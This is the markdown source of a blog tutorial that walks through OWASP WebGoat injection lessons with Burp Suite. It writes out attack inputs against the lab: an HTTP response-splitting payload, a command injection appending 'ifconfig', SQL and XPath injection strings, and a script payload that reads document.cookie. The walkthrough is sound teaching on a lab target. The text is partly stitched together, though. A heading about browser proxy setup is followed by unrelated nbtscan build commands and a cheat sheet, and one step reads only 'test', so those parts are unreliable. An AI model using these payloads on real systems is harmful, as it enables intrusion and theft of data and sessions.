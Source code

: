 ```yaml
---
layout: blog_item
title:  "Web Application Testing OWASP - Burp Suite Injection Flaws"
date:   2015-03-29 14:37:10
author: Arr0way
description: 'OWASP Web Application Testing with Burp Suite, working through OWASPS WebGoat - part of the BWAP series.'
categories: [Web Application Testing]
tags:
- "Burp Suite"
- "Web App"
- "Web Goat" 
---
```


## Introduction 

This blog post documents working through OWSAPs WebGoat part of the [Broken Web Application Project](https://www.owasp.org/index.php/OWASP_Broken_Web_Applications_Project) application with Burp Suite, no other tools will be used for this post, it's essentially an OWASP Burp Suite tutorial. 

![OWASP WebGoat](/img/blog/owasp-web-app-testing/webgoat.jpg)


If you want to follow along you can do so with [Kali Linux](https://www.kali.org/) and the free version of Burp Suite, the [OWASP Broken Web Applications Project v.1.2](https://www.vulnhub.com/entry/owasp-broken-web-applications-project-12,46/) is available via [@vulnhub](https://twitter.com/vulnhub)   


## Info

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Address</th>
      <th>Machine</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>192.168.30.128</code></p>
      </td>
      <td>
            <p>Attacking Machine</p>
      </td>
    </tr>

     <tr>
      <td>
        <p><code>192.168.30.130</code></p>
      </td>
      <td>
            <p>Target Machine</p>
      </td>
    </tr>
      </tbody>
</table>
</div>

## OWASP WebGoat - General 

### HTTP Splitting (AKA CRLF Attack)

Enter the following html into Burp repeater: 

{% highlight html %}
en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html 
Content-Length: 31
<html>Hacked by HighOn.Coffee</html>  
{% endhighlight %}


## Basic Burp Suite Setup 

### Setup FoxyProxy for Burp Suite 

![Setup FoxyProxy Burp
Suite](/img/blog/owasp-web-app-testing/setup-burp-foxyproxy.gif) 

## OWASP WebGoat Injection Flaws 

### Command Injection 

1. Enable Intercept

![Burp intercept on](/img/blog/owasp-web-app-testing/intercept-on-burp.gif)

2. Set FoxyProxy to use Burp Suite

![Burp FoxyProxy](/img/blog/owasp-web-app-testing/burp-foxyproxy.gif)

3. Select the drop down form and select the manual e.g. AccessControlMatrix.help click View 
4. Go to burp proxy > intercept
5. click the Params tab 
6. double click on the Value AccessControlMatrix.help and tack the command on the end: <code>example AccessControlMatrix.help" & ifconfig" - hit return</code> 
7. Click forward in burp until the page renders, you should see the output from ifconfig on the page. 

### Numeric SQL Injection 

Setup burp the same as Command Injection

1. Go to burp > intercept
2. Go to params tab 
3. Change the Value to <code>101 OR 1=1</code>
4. Click forward in burp until the page renders, you should see the output from other users on the page. 

### Log Spoofing 

1. Open burp > decoder  
2. test 

3. 
{% highlight html %}
Login succeeded for username: <code> admin<script>alert("your session has been stolen: " + document.cookie);</script> </code> 
{% endhighlight %}
4. Select Encode as URL
5. Paste output into form on webpage 

### XPATH Injection 

#### WTF is XPATH Injection ? 

In basic terms, XPATH injection is similar to SQL injection but for XML, more information can be found on the OWASP XPATH page. 
 
1. <code>Mike' or 1=1 or 'a'='a</code>
2. test123 

### String SQL Injection 

1. <code>Smith' or 'a'='a</code>
2. Click Go 

<div class="note tip">
  <h5>Use FoxyProxy to save your Sanity</h5>
  <p>Setup FoxyProxy in FireFox to allow for fast proxy switching or setup Burp Suite scope correctly to only intercept in scope machines.</p>
</div>

### Setup Broswer to use Burp Suite Proxy 

{% highlight bash %}
root@kali:~/nbtscan# wget http://www.unixwiz.net/tools/nbtscan-source-1.0.35.tgz
root@kali:~/nbtscan# tar -xvzf nbtscan-source-1.0.35.tgz
root@kali:~/nbtscan# make
root@kali:~/nbtscan# ./nbtscan 
nbtscan 1.0.35 - 2008-04-08 - http://www.unixwiz.net/tools/

usage: ./nbtscan [options] target [targets...]

   Targets are lists of IP addresses, DNS names, or address
   ranges. Ranges can be in /nbits notation ("192.168.12.0/24")
   or with a range in the last octet ("192.168.12.64-97")
{% endhighlight %}

### nbtscan Cheat Sheet

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>nbtscan -v</code></p>
      </td>
      <td>
            <p>Displays the nbtscan version</p>
      </td>
    </tr>

     <tr>
      <td>
        <p><code>nbtscan -f target(s)</code></p>
      </td>
      <td>
            <p>This shows the full NBT resource record responses for each machine scanned, not a one line summary, use this options when scanning a single host</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>nbtscan -O file-name.txt target(s)</code></p>
      </td>
      <td>
            <p>Sends output to a file</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>nbtscan -H</code></p>
      </td>
      <td>
            <p>Generate an HTTP header</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>nbtscan -P</code></p>
      </td>
      <td>
            <p>Generate Perl hashref output, which can be loaded into an existing program for easier processing, much easier than parsing text output</p> 
      </td>
    </tr>

    <tr>
      <td>
        <p><code>nbtscan -V</code></p>
      </td>
      <td>
           <p>Enable verbose mode</p> 
      </td>
    </tr>

    <tr>
      <td>
        <p><code>nbtscan -n</code></p>
      </td>
      <td>
           <p>Turns off this inverse name lookup, for hanging resolution</p> 
      </td>
    </tr>
    <tr>
      <td>
        <p><code>nbtscan -p PORT target(s)</code></p>
      </td>
      <td>
           <p>This allows specification of a UDP port number to be used as the source in sending a query</p> 
      </td>
    </tr>
    <tr>
      <td>
        <p><code>nbtscan -m</code></p>
      </td>
      <td>
           <p>Include the MAC (aka "Ethernet") addresses in the response, which is already implied by the -f option.</p>
      </td>
    </tr>
      </tbody>
</table>
</div>
